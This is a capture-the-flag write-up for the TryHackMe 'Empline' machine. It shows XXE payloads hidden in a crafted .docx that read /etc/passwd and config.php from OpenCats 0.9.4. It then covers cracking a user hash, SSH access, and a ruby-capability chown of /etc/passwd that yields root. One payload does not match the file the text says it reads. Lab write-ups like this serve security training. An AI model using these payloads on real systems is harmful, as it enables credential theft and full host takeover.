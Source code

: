 # Empline TryHackMe Writeup
### Level: `Medium` | OS: `Linux`

![logo](1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](2.png)

## Enumeration
We access website and review all zones of site.
![](3.png)

We list a subdomain that appears to lead to an employee area.
![](4.png)

We found deployed an Opencats with version 0.9.4.
![](5.png)

We launch "**dirsearch**", we list a directory where it shows us a panel that we can access without authentication.
![](26.png)

### Deficient control panel to authorization control
![](27.png)

## Exploitation
We search exploits and found this notice:
https://www.opencats.org/news/2019/july/

### Create with python docx_

```python
#!/usr/bin/env python
from docx import Document
document = Document()
paragraph = document.add_paragraph('m3n0sd0n4ld')
document.save('m3n0s.docx')
```
### Create m3n0s.docx
![](11.png)

Unzip the file and edit the "**document.xml**".
![](12.png)

```XML
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE payload [<!ENTITY payload SYSTEM "/etc/passwd"> ]>
```

We insert the following line (in orange color) and modify the text to "**&payload**".
![](13.png)

We see that the proof of concept works: .
![](14.png)

So now we read the "config.php" file where the database credentials are stored (remember that we have access to the service on port 3306).

```XML
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE payload [<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&payload;</data>
```
We will get the content of the file in base64, so we decode and we will have the credentials in plain text.
![](17.png)

### Connect to the database
![](18.png)

We select the table "*users*" and we will obtain the encrypted password of the user "*george*" (this one has a system user ;))
![](19.png)

We use the "**hashes.com**" website to obtain the flat password through its hash.
![](25.png)

### Read user.txt flag
With the password in plain text, we connect through the **SSH** service and read the "*user.txt*" file.
![](20.png)

## Privilege Escalation
After an enumeration, "**linpeas.sh**" shows us that we have permissions with the "**ruby**" binary to modify the binary user due to a deficiency in capabilities.
![](21.png)

We create a ruby file that we will use to modify the user of the file so we can edit it with our user.
![](22.png)

```ruby
file = File.new("/etc/passwd", "r")
file.chown(1002, 1002)
```

Edit the file "*/etc/passwd*" and create the user "*m3n0sd0n4ld*", add the password hash and give it the root suid and save the file.
![](23.png)

We authenticate with the user "*m3n0sd0n4ld*", we see that we are root and we read the root.txt flag
![](24.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)
